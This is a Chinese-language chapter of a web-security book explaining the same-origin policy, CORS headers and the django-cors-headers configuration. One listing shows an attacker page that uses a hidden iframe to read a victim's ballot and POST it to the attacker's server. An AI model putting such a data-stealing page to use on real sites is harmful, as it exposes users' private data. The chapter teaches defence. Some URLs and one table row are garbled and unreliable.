

# 第十七章：跨源资源共享

本章内容包括

+   理解同源策略

+   发送和接收简单的 CORS 请求

+   使用 `django-cors-headers` 实现 CORS

+   发送和接收预检 CORS 请求

在第十五章中，您了解到一个源由 URL 的协议（方案）、主机和端口定义。每个浏览器都实现了*同源策略*（SOP）。该策略的目标是确保只有“相同源”的文档可以访问某些资源。这样可以防止具有 mallory.com 源的页面未经授权地访问源自 ballot.charlie.com 的资源。

将*跨源资源共享*（CORS）看作是放宽浏览器同源策略的一种方式。这使得 social.bob.com 可以从 https:/./fonts.gstatic.com 加载字体。它还允许 alice.com 的页面向 social.bob.com 发送异步请求。在本章中，我将向您展示如何使用 `django-cors-headers` 安全地创建和消耗共享资源。由于 CORS 的性质，本章包含的 JavaScript 比 Python 更多。

## 17.1 同源策略

到目前为止，您已经看到 Mallory 未经授权地访问了许多资源。她用彩虹表破解了 Charlie 的密码。她用 `Host` 头攻击接管了 Bob 的帐户。她通过 XSS 弄清了 Alice 投票给谁。在本节中，Mallory 发起了一次更简单的攻击。

假设 Mallory 想知道 Bob 在 2020 年美国总统选举中投了谁的票。她引诱他回到 mallory.com，他的浏览器渲染了以下恶意网页。这个页面悄悄地从 Bob 当前登录的网站 ballot.charlie.com 请求 Bob 的选票表单。包含 Bob 投票的选票表单然后加载到一个隐藏的 iframe 中。这触发了一个 JavaScript 事件处理程序，*试图*读取 Bob 的投票并将其发送到 Mallory 的服务器。

Mallory 的攻击失败得很惨，如下列表所示。Bob 的浏览器阻止了她的网页访问 iframe 文档属性，而是抛出了 `DOMException` 异常。同源策略（SOP）挽救了这一局面。

列表 17.1 Mallory 未能窃取 Bob 的私人信息

```py
<html>
  <script>
    function recordVote(){
      const ballot = frames[0].document.getElementById('ballot');   # ❶

      const headers = {
        'Content-type': 'application/x-www-form-urlencoded; charset=UTF-8'
      };
      fetch('/record/', {                                           # ❷
        method: 'POST',                                             # ❷
        headers: headers,                                           # ❷
        body: 'vote=' + ballot.value                                # ❷
      });                                                           # ❷
    };
  </script>
  <body>
    ...

    <iframe src="https://ballot.charlie.com/"                       # ❸
            onload="recordVote()"                                   # ❹
            style="display: none;">                                 # ❺
    </iframe>
  </body>
</html>
```

❶ 抛出 DOMException 而不是访问 Bob 的投票

❷ 试图获取 Bob 的投票但从未执行

❸ 加载 Bob 的选票页面

❹ 在选票页面加载后调用

❺ 隐藏选票页面

很久以前，还没有同源策略。如果 Mallory 在 1990 年代中期尝试了这种技术，她就会成功。像这样的攻击非常容易执行，以至于像 Mallory 这样的人通常不需要像 XSS 这样的技术。显然，各浏览器供应商并没有花很长时间就采纳了同源策略。

与流行观念相反，浏览器的 SOP 并不适用于所有的跨域活动；大多数嵌入内容是例外的。例如，假设 Mallory 的恶意网页从 ballot.charlie.com 加载了图像、脚本和样式表；SOP 将毫无问题地显示、执行和应用这三种资源。这正是网站与 CDN 集成的方式。这种情况时常发生。

在本章的剩余部分中，我将介绍*受同源策略约束的*功能。在这些场景中，浏览器和服务器必须通过 CORS 进行合作。与 CSP 一样，CORS 是 W3C 的推荐标准（[www.w3.org/TR/2020/SPSD-cors-20200602/](https://www.w3.org/TR/2020/SPSD-cors-20200602/)）。该文档定义了在来源之间共享资源的标准，为您提供了一种以精确方式放宽浏览器 SOP 的机制。

## 17.2 简单的 CORS 请求

CORS 是浏览器和服务器之间的协作努力，由一组请求和响应头部实现。在本节中，我介绍了两个简单的例子，其中包含最常用的 CORS 头部：

+   使用谷歌的字体

+   发送异步请求

嵌入内容通常不需要 CORS；字体是例外。假设 Alice 从 bob.com 请求了列表 17.2 中的网页（此页面也出现在第十五章）。如粗体所示，网页触发了对 https://fonts.googleapis.com 的样式表的第二次请求。谷歌的样式表触发了对 https://fonts.gstatic.com 的 Web 字体的第三次请求。

列表 17.2 网页嵌入了来自谷歌的样式表和字体

```py
<html>
  <head>
    <link href='https:/./fonts.googleapis.com/css?family=Caveat'    # ❶
          rel='stylesheet'>                                        # ❶
    <style>                                                        # ❷
      body {                                                       # ❷
        font-family: 'Caveat', serif;                              # ❷
      }                                                            # ❷
    </style>
  </head>
    <body>
      Text displayed in Caveat font
    </body>
</html>
```

❶ 由谷歌托管的公共样式表

❷ 一个内联样式表

谷歌发送的第三个响应带有两个有趣的头部信息。`Content-Type`头部指示字体采用 Web 开放字体格式（你在第十四章学过这个头部）。更重要的是，响应还包含了一个由 CORS 定义的`Access-Control-Allow-Origin`头部。通过发送这个头部，谷歌告知浏览器允许来自任何来源的资源访问该字体：

```py
...
Access-Control-Allow-Origin: *     # ❶
Content-Type: font/woff
...
```

❶ 放宽了所有来源的同源策略

如果你的目标是与全世界分享资源，这个解决方案是完全有效的；但是如果你只想与一个信任的来源分享资源呢？接下来就介绍了这种用例。

### 17.2.1 跨源异步请求

假设 Bob 希望他的社交媒体站点用户始终了解最新趋势。他创建了一个新的只读/trending/资源，提供了一份热门社交媒体帖子的简短列表。Alice 也想将这些信息展示给 alice.com 的用户，所以她编写了以下 JavaScript。她的代码通过异步请求检索 Bob 的新资源。事件处理程序用响应填充了一个小部件。

列表 17.3 网页发送了一个跨域异步请求

```py
<script>

  fetch('https:/./social.bob.com/trending/')               # ❶
    .then(response => response.json())
    .then(data => {                                       # ❷
      const widget = document.getElementById('widget');   # ❷
      ...                                                 # ❷
    })
    .catch(error => console.error('error', error));

</script>
```

❶ 发送一个跨域请求

❷ 将响应项呈现给用户

令 Alice 惊讶的是，她的浏览器阻止了响应，并且响应处理程序从未被调用。为什么？SOP 简单地无法确定响应是否包含公共或私人数据；`social.bob.com/trending/`和`social.bob.com/direct-messages/`被视为相同。与所有跨域异步请求一样，响应必须包含有效的`Access-Control-Allow-Origin`头，否则浏览器将阻止访问。

Alice 要求 Bob 向`/trending/`添加`Access-Control-Allow-Origin`头。请注意，Bob 对`/trending/`的限制比 Google 对其字体的限制更严格。通过发送这个头，social.bob.com 告知浏览器文档必须源自`https://alice.com`才能访问资源：

```py
...
Access-Control-Allow-Origin: https://alice.com
...
```

`Access-Control-Allow-Origin`是我在本章中介绍的许多 CORS 头中的第一个。在下一节中，您将学习如何开始使用它。

## 17.3 使用 django-cors-headers 进行 CORS

使用`django-cors-headers`在不同来源之间共享资源很容易。在您的虚拟环境中，运行以下命令来安装它。此软件包应安装到共享资源生产者，而不是消费者：

```py
$ pipenv install django-cors-headers
```

接下来，在您的`settings`模块中的`INSTALLED_APPS`中添加`corsheaders`应用程序：

```py
INSTALLED_APPS = [
   ...
   'corsheaders',
]
```

最后，在`MIDDLEWARE`中添加`CorsMiddleware`，如粗体字所示。根据项目文档，`CorsMiddleware`应该被放置“在任何可以生成响应的中间件之前，例如 Django 的`CommonMiddleware`或 WhiteNoise 的`WhiteNoiseMiddleware`”：

```py
MIDDLEWARE = [
    ...
 'corsheaders.middleware.CorsMiddleware',
    'django.middleware.common.CommonMiddleware',
    'whitenoise.middleware.WhiteNoiseMiddleware',
    ...
]
```

### 17.3.1 配置 Access-Control-Allow-Origin

在配置`Access-Control-Allow-Origin`之前，您必须回答两个问题。这些问题的答案应该是精确的：

+   你分享哪些资源？

+   你将它们与哪些来源分享？

使用`CORS_URLS_REGEX`设置来定义 URL 路径模式的共享资源。顾名思义，此设置是一个正则表达式。默认值匹配所有 URL 路径。以下示例匹配以`shared_resources`开头的任何 URL 路径：

```py
CORS_URLS_REGEX = r'^/shared_resources/.*$'
```

注意我建议使用共同的 URL 路径前缀托管所有共享资源。此外，不要使用此路径前缀托管未共享的资源。这清楚地传达了共享给两组人的内容：团队的其他成员和资源消费者。

正如您可能猜到的那样，`Access-Control-Allow-Origin`的值应尽可能严格。如果您公开共享资源，则使用`*`；如果您私下共享资源，则使用单个来源。以下设置配置了`Access-Control-Allow-Origin`的值：

+   `CORS_ORIGIN_ALLOW_ALL`

+   `CORS_ORIGIN_WHITELIST`

+   `CORS_ORIGIN_REGEX_WHITELIST`

将`CORS_ORIGIN_ALLOW_ALL`设置为`True`会将`Access-Control-Allow-Origin`设置为`*`。这也会禁用其他两个设置。

`CORS_ORIGIN_WHITELIST` 设置与一个或多个特定来源共享资源。如果请求的来源与列表中的任何项目匹配，它将成为 `Access-Control-Allow-Origin` 头部的值。例如，鲍勃将使用以下配置与 Alice 和 Charlie 拥有的站点共享资源：

```py
CORS_ORIGIN_WHITELIST = [
   'https:/./alice.com',
   'https:/./charlie.com:8002',
]
```

`Access-Control-Allow-Origin` 头部不会容纳整个列表；它只接受一个来源。`django-cors-headers` 如何知道请求的来源呢？如果你猜测是 `Referer` 头部，你就很接近了。实际上，浏览器使用一个名为 `Origin` 的头部指定请求的来源。这个头部的行为类似于 `Referer` 但不会显示 URL 路径。

`CORS_ORIGIN_REGEX_WHITELIST` 设置类似于 `CORS_ORIGIN_WHITELIST`。正如名称所示，这个设置是一个正则表达式列表。如果请求的来源与列表中的任何表达式匹配，它将成为 `Access-Control-Allow-Origin` 的值。例如，鲍勃将使用以下设置与 alice.com 的所有子域共享资源：

```py
CORS_ORIGIN_REGEX_WHITELIST = [
   r'^https://\w+\.alice\.com$',
]
```

注意：您可能会惊讶地发现 WhiteNoise 将每个静态资源都以 `Access-Control-Allow-Origin` 头部设置为 `*`。最初的目的是授予对静态资源（如字体）的跨域访问。只要您使用 WhiteNoise 提供公共资源，这不应该成为问题。如果不是这种情况，您可以通过将 `WHITENOISE_ALLOW_ALL_ORIGINS` 设置为 `False` 来移除此行为。

在下一节中，我将介绍一些对于 `Access-Control-Allow-Origin` 单独来说过于复杂的用例。我向你介绍几个更多的响应头，两个请求头，以及一个很少使用的请求方法 `OPTIONS`。

## 17.4 预检 CORS 请求

在我深入讨论这个主题之前，我将提供一些关于它解决的问题的背景信息。想象一下是 2003 年，查理正在构建 ballot.charlie.com。/vote/ 端点处理 POST 和 PUT 请求，允许用户创建和更改他们的投票。

查理知道 SOP 不会阻止跨域表单提交，因此他用 `Referer` 验证保护他的 POST 处理程序。这样可以阻止像 mallory.com 这样的恶意网站成功提交伪造的投票。

查理也知道 SOP 阻止跨域 PUT 请求，因此他不费力地用 `Referer` 验证保护他的 PUT 处理程序。他放弃了这一层防御，依赖于浏览器阻止所有跨域不安全的非 POST 请求的事实。查理完成了 ballot.charlie.com 并将其推送到生产环境。

CORS 在随后的一年（2004 年）诞生。在接下来的 10 年里，它发展成为 W3C 的推荐标准。在此期间，规范的作者们不得不找到一种方法来推出 CORS，而不危及像查理的 PUT 处理程序这样的无防御的端点。

显然，CORS 不能简单地为新一代浏览器释放跨源不安全请求。旧站点如 ballot.charlie.com 将遭受新一波攻击。检查响应头部如 `Access-Control-Allow-Origin` 无法保护这些站点，因为攻击会在浏览器接收到响应之前完成。

CORS 必须使浏览器能够在发送跨源不安全请求之前发现服务器是否准备就绪。这种发现机制称为*预检请求*。浏览器发送预检请求以确定是否安全发送潜在有害的跨源资源请求。换句话说，浏览器请求权限而不是原谅。仅当服务器对预检请求作出积极响应时，原始的跨源资源请求才会被发送。

预检请求方法始终是 `OPTIONS`。像 `GET` 和 `HEAD` 一样，`OPTIONS` 方法是安全的。浏览器自动承担发送预检请求和处理预检响应的所有责任。客户端代码从不故意执行这些任务。下一节将更详细地介绍预检请求。

### 17.4.1 发送预检请求

假设 Bob 想要通过一个新功能来改善他的社交网络网站，即匿名评论。任何人都可以毫无后果地说任何话。我们来看看会发生什么。

Bob 部署了 social.bob.com/comment/，允许任何人创建或更新评论。然后，他为他的公共网站 www.bob.com 编写了列表 17.4 中的 JavaScript。这段代码让公众可以匿名评论他社交网络用户发布的照片。

注意两个重要细节：

+   `Content-Type` 头部明确设置为 `application/json`。带有这些属性之一的跨源请求需要预检请求。

+   www.bob.com 发送带有 PUT 请求的评论。

换句话说，这段代码发送了两个请求：预检请求和实际的跨源资源请求。

列表 17.4 www.bob.com 的一个网页向照片添加评论

```py
<script>

  const comment = document.getElementById('comment');     # ❶
  const photoId = document.getElementById('photo-id');    # ❶
  const body = {                                          # ❶
    comment: comment.value,                               # ❶
    photo_id: photoId.value                               # ❶
  };                                                      # ❶

  const headers = {
    'Content-type': 'application/json'                    # ❷
  };
  fetch('https:/./social.bob.com/comment/', {
      method: 'PUT',                                      # ❸
      headers: headers,
      body: JSON.stringify(body)
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error('error', error));

</script>
```

❶ 从 DOM 中读取评论

❷ 触发预检的 Content-Type 请求头值

❸ 一个触发预检请求的方法

注意 如果你想了解 CORS，请让头部告诉你故事。

下面是预检请求的一些有趣的头部信息。你之前学过其中的两个。`Host` 头部指明了请求去向何处；`Origin` 头部指明了请求来自何处。以**粗体**显示的 `Access-Control-Request-Headers` 和 `Access-Control-Request-Method` 是 CORS 头部。浏览器使用这些头部来询问服务器是否准备好接受携带非典型内容类型的 PUT 请求：

```py
...
Access-Control-Request-Headers: content-type
Access-Control-Request-Method: PUT
Host: social.bob.com
Origin: https:/./www.bob.com
...
```

以下是预检响应中的一些有趣的标头。`Access-Control-Allow-Headers` 和 `Access-Control-Allow-Methods` 是对 `Access-Control-Request-Headers` 和 `Access-Control-Request-Method` 的回复。这些响应标头通知 Bob 的服务器可以处理哪些方法和请求标头。这包括 PUT 方法和加粗显示的 `Content-Type` 标头。关于第三个响应标头 `Access-Control-Allow-Origin`，您已经了解了很多：

```py
...
Access-Control-Allow-Headers: accept, accept-encoding, content-type, ➥authorization, dnt, origin, user-agent, x-csrftoken, ➥x-requested-with
Access-Control-Allow-Methods: GET, OPTIONS, PUT
Access-Control-Allow-Origin: https:/./www.bob.com
...
```

最后，浏览器被允许发送原始的跨源异步 PUT 请求。图 17.1 描绘了这两个请求。



图 17.1 成功的预检 CORS 请求

那么，究竟是什么条件触发了预检请求呢？表 17.1 枚举了各种触发器。如果浏览器发现多个触发器，则最多只发送一个预检请求。存在一些浏览器之间的小差异（有关详细信息，请参见 MDN Web 文档：[`mng.bz/0rKv`](https://shortener.manning.com/0rKv)）。

表 17.1 预检请求触发器

| 请求属性 | 触发条件 |
| --- | --- |
| 方法 | 请求方法不是 GET、HEAD 或 POST 之外的任何内容。 |

| 标头 | 请求包含一个既不在安全列表中也不被禁止的标头。CORS 规范将安全列表请求标头定义如下：

+   Accept

+   Accept-Language

+   Content-Language

+   Content-Type（更多限制遵循）

CORS 规范定义了 20 个被禁止的标头，包括 Cookie、Host、Origin 和 Referer [(https://fetch.spec.whatwg.org/#forbidden-header-name).](https://fetch.spec.whatwg.org/#forbidden-header-name) |

| 内容类型标头 | 内容类型标头除了以下内容之外都是其他：

+   application/x-www-form-urlencoded

+   multipart/form-data

+   text/plain

|

| ReadableStream | 浏览器通过流 API 请求数据流。 |
| --- | --- |
| XMLHttpRequestUpload | 浏览器将事件侦听器附加到 XMLHttpRequest.upload。 |

作为资源消费者，您不需要发送预检请求；作为资源生产者，您需要发送预检响应。下一节将介绍如何调整各种预检响应标头。

### 17.4.2 发送预检响应

在本节中，您将学习如何使用 `django-cors-headers` 管理多个预检响应标头。前两个标头在前一节中已经涵盖了：

+   `Access-Control-Allow-Methods`

+   `Access-Control-Allow-Headers`

+   `Access-Control-Max-Age`

`CORS_ALLOW_METHODS` 设置配置 `Access-Control-Allow-Methods` 响应标头。默认值是一个常见的 HTTP 方法列表，如下所示。在配置此值时，您应该应用最小权限原则；只允许您需要的方法：

```py
CORS_ALLOW_METHODS = [
    'DELETE',
    'GET',
    'OPTIONS',
    'PATCH',
    'POST',
    'PUT',
]
```

`CORS_ALLOW_HEADERS`设置配置了`Access-Control-Allow-Headers`响应头。此设置的默认值是一组常见的无害请求头，如下所示。`Authorization`、`Content-Type`、`Origin`和`X-CSRFToken`在本书中已经介绍过了：

```py
CORS_ALLOW_HEADERS = [
    'accept',
    'accept-encoding',
    'authorization',      # ❶
    'content-type',       # ❷
    'dnt',
    'origin',             # ❸
    'user-agent',
    'x-csrftoken',        # ❹
    'x-requested-with',
]
```

❶ 与 OAuth 2 同时引入

❷ 与 XSS 同时引入

❸ 在本章中引入

❹ 与 CSRF 同时引入

使用自定义请求头扩展此列表不需要将整个内容复制到您的设置文件中。以下代码演示了如何通过导入`default_headers`元组来干净地执行此操作：

```py
from corsheaders.defaults import default_headers

CORS_ALLOW_HEADERS = list(default_headers) + [
    'Custom-Request-Header'
]
```

`Access-Control-Max-Age`响应头限制了浏览器缓存预检请求响应的时间。该头由`CORS_PREFLIGHT_MAX_AGE`设置配置。此设置的默认值为`86400`（一天，以秒为单位）：

```py
Access-Control-Max-Age: 86400
```

长时间缓存可能会增加您的发布复杂性。例如，假设您的服务器告诉浏览器将预检请求响应缓存一天。然后，您修改了预检请求响应以推出新功能。在浏览器可以使用该功能之前可能需要一天的时间。我建议在生产中将`CORS_PREFLIGHT_MAX_AGE`设置为 60 秒或更短。这样可以避免潜在的麻烦，而性能损失通常可以忽略不计。

在浏览器缓存预检响应时，通过本地开发问题进行调试几乎是不可能的。为自己做个好事，在开发环境中将`CORS_PREFLIGHT_MAX_AGE`分配给`1`：

```py
CORS_PREFLIGHT_MAX_AGE = 1 if DEBUG else 60
```

## 17.5 跨源发送 cookies

Bob 意识到他犯了一个大错。人们正在使用匿名评论在他的社交网络站点上互相说一些非常不好的话。每个人都很不高兴。他决定用认证评论替换匿名评论。从现在开始，对/comment/的请求必须携带有效的会话 ID。

不幸的是对于 Bob，来自 www.bob.com 的每个请求已经省略了用户的会话 ID，即使对于当前已登录到 social.bob.com 的用户也是如此。默认情况下，浏览器会省略跨源异步请求中的 cookies。它们还会忽略来自跨源异步响应的 cookies。

Bob 将`Access-Control-Allow-Credentials`头添加到/comment/预检响应中。与其他 CORS 头一样，此头旨在放宽 SOP。具体来说，此头允许浏览器在随后的跨源资源请求中包含凭据。客户端凭据包括 cookies、授权头和客户端 TLS 证书。以下是一个示例头：

```py
Access-Control-Allow-Credentials: true
```

`CORS_ALLOW_CREDENTIALS`设置指示`django-cors-headers`将此头添加到所有 CORS 响应中：

```py
CORS_ALLOW_CREDENTIALS = True
```

`Access-Control-Allow-Credentials` *允许*浏览器发送 cookies；它不会*强制*浏览器执行任何操作。换句话说，服务器和浏览器都必须选择加入。`Access-Control-Allow-Credentials`旨在与`fetch(credentials)`或`XmlHttpRequest.withCredentials`一起使用。最后，Bob 在 www.bob.com 添加了一行 JavaScript 代码，如下所示，用粗体字显示。问题解决：

```py
<script>
  ...
  fetch('https:/./social.bob.com/comment/', {
      method: 'PUT',
      headers: headers,
      credentials: 'include',        # ❶
      body: JSON.stringify(body)
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error('error', error));
  ...
</script>
```

❶ 一个用于发送和接收 cookies 的选择性设置

我选择在本书中将 CORS 和 CSRF 相互隔离。我还选择连续呈现这些主题，因为 CORS 和 CSRF 抵抗经常被混淆。尽管有些重叠，但这些主题并不相同。

## 17.6 CORS 和 CSRF 抵抗

CORS 和 CSRF 之间的一些混淆是可以预料的。这两个主题都属于 Web 安全；这两个主题都适用于网站之间的流量。这些相似之处被许多差异所掩盖：

+   CORS 标头不能抵抗常见形式的 CSRF。

+   CSRF 抵抗不能放宽同源策略。

+   CORS 是 W3C 推荐；CSRF 保护未标准化。

+   请求伪造需要会话 ID；资源共享不需要。

CORS 不能替代 CSRF 抵抗。在第十六章中，你看到 Mallory 欺骗 Alice 从 mallory.com 提交一个隐藏表单到 admin.alice.com。SOP 不规范这种请求。没有办法用 CORS 标头阻止这种攻击。CSRF 抵抗是唯一的方法。

同样，CSRF 抵抗不能替代 CORS。在本章中，你看到 Bob 使用 CORS 来放宽 SOP，与 https:/./alice.com 分享/trending/资源。相反，任何形式的 CSRF 抵抗都不会允许 Bob 放宽 SOP。

此外，CORS 是 W3C 推荐。这个标准已经被每个浏览器和无数服务器端框架（包括`django-cors-headers`）相对统一地实现。对于 CSRF 抵抗没有相应的标准。Django、Ruby on Rails、ASP.NET 和每个其他 Web 框架都可以以自己独特的方式抵抗 CSRF。

最后，一个成功的伪造请求必须携带有效的会话 ID；用户必须已登录。相反，许多成功的 CORS 请求不需要，也不应该携带会话 ID。在本章中，你看到 Google 与 Alice 分享字体，即使她没有登录到 Google。Bob 最初与 www.bob.com 用户分享/trending/，即使其中许多用户没有登录到 social.bob.com。

简而言之，CSRF 抵抗的目的是为了拒绝不经意的恶意请求以确保安全。CORS 的目的是接受有意的请求以支持功能功能。在下一章中，我将涵盖点击劫持，这是另一个与 CSRF 和 CORS 混淆的主题。

## 摘要

+   没有 SOP，互联网将是一个非常危险的地方。

+   CORS 可以被视为放宽 SOP 的一种方式。

+   简单的 CORS 使用情况由`Access-Control-Allow-Origin`处理。

+   浏览器在可能有害的 CORS 请求之前会发送一个预检请求。

+   将所有共享资源托管在具有共同 URL 路径前缀的主机上。
